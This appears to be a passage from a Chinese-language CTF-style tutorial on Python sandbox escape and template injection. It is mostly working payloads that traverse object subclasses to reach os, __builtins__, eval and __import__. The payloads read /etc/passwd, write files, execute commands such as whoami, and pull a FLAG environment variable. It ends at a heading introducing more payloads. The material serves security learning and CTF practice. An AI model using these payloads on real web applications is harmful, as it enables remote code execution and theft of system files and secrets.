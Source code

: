 `<type 'file'>`是py2的专属，直接可以用`read()`, `write()`, `readlines()`进行文件读写

```python
().__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
().__class__.__base__.__subclasses__()[40]('/tmp').write('test')
```

`os`模块就不必说了，有`system()`可以直接rce的函数；在py2中这两个子类可以直接用

```python
# <class 'site._Printer'>, 71
# <class 'site.Quitter'>, 76
().__class__.__base__.__subclasses__()[index].__init__.__globals__['os'].system('whoami')
```

```python
{{().__class__.__base__.__subclasses__()[index].__init__.__globals__['os'].__dict__.environ['FLAG]}}
```

不嫌麻烦的还可以再套一层，用`linecache`来调用`os`，py2中有这两个类含有`linecache`模块

```python
# <class 'warnings.WarningMessage'>, 58
# <class 'warnings.catch_warnings', 59
[].__class__.__base__.__subclasses__()[index].__init__.__globals__['linecache'].__dict__['os'].__dict__['system']('whoami')
```

#### py3 - \_\_builtins\_\_

py3中就没这么直接，要关注的模块是`__builtins__`，借助它来调用内置的`open()`进行文件读写，用`eval()`将`os`模块引入rce

```python
().__class__.__base__.__subclasses__()[index].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
().__class__.__base__.__subclasses__()[index].__init__.__globals__['__builtins__']['open']('/etc/passwd','r').read()
```

或者是直接用`__import__`加载`os`模块执行命令

```python
().__class__.__base__.__subclasses__()[index].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()
```

py2有个特殊的`commands`模块也可以直接rce

```python
().__class__.__base__.__subclasses__()[index].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('whoami')
```

——————注意引用`__builtins__`内建模块这一方式在py2&py3完全通杀

## 常用payload

其实上面已经列举的比较全啦，这里做一些小小的补充
